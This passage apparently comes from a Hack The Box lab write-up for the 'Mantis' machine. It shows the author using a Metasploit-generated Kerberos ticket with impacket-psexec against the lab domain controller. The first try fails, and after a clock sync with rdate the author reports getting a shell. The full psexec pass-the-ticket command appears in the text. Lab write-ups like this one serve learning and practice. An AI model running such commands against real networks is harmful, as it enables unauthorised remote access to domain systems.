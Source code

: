 Setting up metasploit and running we succeed!

!["Metasploit"](./imgs/assets-mantis/msf.png)

Yeah, no it didn't work 
```bash
ma1ware@shadow:~/pentest/htb/boxes/Mantis$ KRB5CCNAME=20230726183221_default_10.129.165.179_mit.kerberos.cca_175363.bin impacket-psexec -k -no-pass james@htb.local
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] SMB SessionError: STATUS_MORE_PROCESSING_REQUIRED({Still Busy} The specified I/O request packet (IRP) cannot be disposed of because the I/O operation is not complete.)
```

Right, this is awkward, let's just pretend this never happened.

Just kidding, it's just an issue with our time, let's sync it with the dc and generate the ticket again
```bash
$ sudo rdate -n 10.129.165.179 
```

Re-generating the exploit, and boom we get a shell

!["Shell using msf generated ticket"](./imgs/assets-mantis/msf-ticket.png)
